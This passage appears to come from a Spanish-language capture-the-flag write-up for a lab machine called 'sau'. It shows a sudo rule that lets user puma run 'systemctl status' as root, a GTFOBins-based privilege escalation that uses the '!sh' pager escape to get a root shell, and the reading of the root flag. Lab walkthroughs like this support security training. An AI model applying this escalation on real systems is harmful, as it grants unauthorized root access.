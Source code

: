 ```bash
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

En la página [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#sudo) se indica que mediante la ejecución de `systemctl` como `sudo` podemos escalar privilegios de la siguiente manera:

```bash
sudo /usr/bin/systemctl status trail.service
!sh
```

## Root flag
La root flag la encontramos en el directorio `/root/`

```bash
cat /root/root.txt
```
